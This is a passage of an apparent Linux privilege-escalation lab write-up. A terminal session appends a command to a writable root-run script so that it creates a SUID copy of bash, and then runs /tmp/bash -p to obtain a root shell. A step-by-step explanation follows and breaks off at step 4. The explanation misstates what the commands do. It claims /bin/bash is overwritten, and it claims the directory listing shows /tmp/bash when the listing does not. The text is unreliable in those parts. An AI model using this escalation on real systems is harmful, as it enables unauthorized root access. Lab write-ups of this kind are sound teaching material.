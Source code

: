 ```
TCM@debian:~$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
 
TCM@debian:~$ cat /usr/local/bin/overwrite.sh 
#!/bin/bash

echo `date` > /tmp/useless
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
TCM@debian:~$ ls -al /tmp
total 196
drwxrwxrwt  2 root root   4096 Jan 10 07:59 .
drwxr-xr-x 22 root root   4096 Jun 17  2020 ..
-rw-r--r--  1 root root 181517 Jan 10 07:59 backup.tar.gz
-rw-r--r--  1 root root     29 Jan 10 07:59 useless
TCM@debian:~$ /tmp/bash -p
bash-4.1# whoami
root
```

#### Explanation:

This privilege escalation involves creating a script that overwrites the `/bin/bash` binary with a copy that has the SUID bit set, allowing any user to execute it with the permissions of the file owner (root). Let's break down the provided commands:

1.  **Create an Overwrite Script:**

    ```bash
    echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
    ```

    * This command appends a line to the file `/usr/local/bin/overwrite.sh`.
    * The appended line copies the `/bin/bash` binary to `/tmp/bash` and sets the SUID bit on the copied binary.
2.  **Content of `overwrite.sh`:**

    ```bash
    #!/bin/bash

    echo `date` > /tmp/useless
    cp /bin/bash /tmp/bash; chmod +s /tmp/bash
    ```

    * The script `/usr/local/bin/overwrite.sh` contains a shebang (`#!/bin/bash`) and two commands.
    * It writes the current date to the file `/tmp/useless`.
    * It copies `/bin/bash` to `/tmp/bash` and sets the SUID bit on `/tmp/bash`.
3.  **List `/tmp` Directory:**

    ```bash
    ls -al /tmp
    ```

    * This command lists the contents of the `/tmp` directory.
    * The output shows the `useless` file and the `backup.tar.gz` file, along with the recently created `/tmp/bash` binary.
4.  **Execute `/tmp/bash -p`:**

